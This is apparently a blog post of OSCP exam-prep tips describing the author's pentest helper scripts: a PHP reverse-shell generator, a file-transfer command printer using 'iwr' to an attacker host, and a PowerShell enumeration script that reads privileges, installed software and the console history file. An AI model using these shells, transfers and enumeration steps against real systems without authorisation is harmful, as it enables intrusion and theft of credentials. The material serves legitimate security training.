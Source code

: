 Btw, as of November 2024, [Claude](https://claude.ai/) is better for code, but the free tier is more limited by message, so sadly you might want to skip the "Perfect, that works, thank you" messages. I tend to be polite to chat bots, but hey I'm from the South. 

### Automate By Writing Your Own Scripts
Automate by forcing your robot friends to write your own scripts!  Yeah, you'll learn more trying to write every line yourself, but you'll learn nothing if you give up because it's too confusing. I have a few custom scripts on my [GitHub](https://github.com/pentestpop/PopScripts), so you can get more details from the README there, but basically if I know some task is going to require multiple commands, or long commands I might mistype, I (or [someone](https://miro.medium.com/v2/resize:fit:4800/format:webp/1*GmDjVtGv2I7A8-X5vC4tAQ.jpeg))create a script which runs the commands and echos anything I might need to paste into another window. Examples:
- `liggy` starts Ligolo, asks for what subnet to pivot into, and then prints commands to run into the shell on the target.
- `ivan` prompts the user for a IP and Port before generating a new copy of Ivan Sincek's [PHP-Reverse-Shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) in the working directory.
- `served` prints certutil, iwr, and wget commands to be run on a remote target to download files from your machine using the `tun0` IP. So `served -f file.txt` returns `iwr -uri http://tun0/file.txt -o file.txt` and so on. 
Feel free to copy these or fork them or whatever. But probably you can find some other examples. Losing focus is death by a thousand cuts, make everything as easy on yourself as possible. 

#### Checklists
For the OSCP specifically, there's kind of a limited number of pathways you can take to exploit a machine. And it's good advice to **Enumerate Deeply, Exploit Simply**. Check the practice tests they give you, the exploits simply are not that complicated. If you're struggling, you probably missed something relatively simple. One way to make sure you catch all the low hanging fruit is to run scripts which give you all the output. Once again, I have some of this on my [GitHub](https://github.com/pentestpop/verybasicenum). I noticed that I forgot to run a UDP scan a few times, so I made a script for nmap called `vbnmap` (very basic nmap). It doesn't have all the bells and whistles of [AutoRecon](https://github.com/Tib3rius/AutoRecon) for example, but it's fast, it automatically creates an output file, and you won't miss anything. It runs: 
- A simple TCP scan to the terminal so you can get started on the commonly used ports
- A simple full port (`-p-`) TCP scan
- A more detailed TCP scans with only the ports from the full TCP scan
- A UDP scan
- And it creates an output file with all this information. Simple. 

I also have [verybasicenum](https://github.com/pentestpop/verybasicenum) scripts for `.bat`, `.ps1`, and `.sh` that print out the lowest hanging fruit like the users, history files, the common directories where there might be an unusual binary like `/opt` for Linux or `C:\Program Files` for Windows. If you see something that doesn't belong, there's a pretty good chance it's involved. For example, the `.ps1` script runs:
```
whoami
whoami /priv
whoami /groups
net user $env:USERNAME
net user /domain
systeminfo
ipconfig
Get-ChildItem C:\
Get-ItemProperty 'HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*' | Select-Object DisplayName
Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*'
Get-Process
Get-Content "$HOME\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
```
